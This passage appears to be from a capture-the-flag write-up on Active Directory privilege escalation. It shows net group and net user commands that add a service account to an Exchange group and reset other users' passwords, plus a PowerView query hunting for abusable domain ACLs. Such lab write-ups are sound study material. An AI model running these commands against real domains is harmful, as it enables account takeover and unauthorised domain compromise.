 ![user2](./forest/user2.png)

This will run for a while and return a lot of results. However, the first hits at the top of the list are juicy. The output states that the groups `Exchange Windows Permissions` and `Exchange Trusted Subsystem` have the ability to change the password of other users without needing to know the old password first. Combining this with the power of the `Account Operators` group means that it is possible to add `svc-alfresco` to the `Exchange Trusted Subsystem` group to then reset the password of the domain admin:

```bash
net group "Exchange Trusted Subsystem" svc-alfresco /add /domain
net user administrator bubbagump123! /domain
```

However this results in `Access is denied`? The following works for other domain users?

```bash
net user sebastien bubbagump123! /domain
```

I guess this method would be helpful if there was some other user in the `Administrators` OU? Next, find another method by running the following PowerShell over WinRM:

```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ? {
  ($_.ActiveDirectoryRights -contains "Self") -or 
  ($_.ActiveDirectoryRights -contains "WriteDACL") -or 
  ($_.ActiveDirectoryRights -contains "WriteOwner") -or
  (($_.ObjectAceType -contains "All") -and 
   ($_.ActiveDirectoryRights -contains "GenericAll")) -or 
  (($_.ObjectAceType -contains "All") -and 
   ($_.ActiveDirectoryRights -contains "WriteProperty"))
}
```

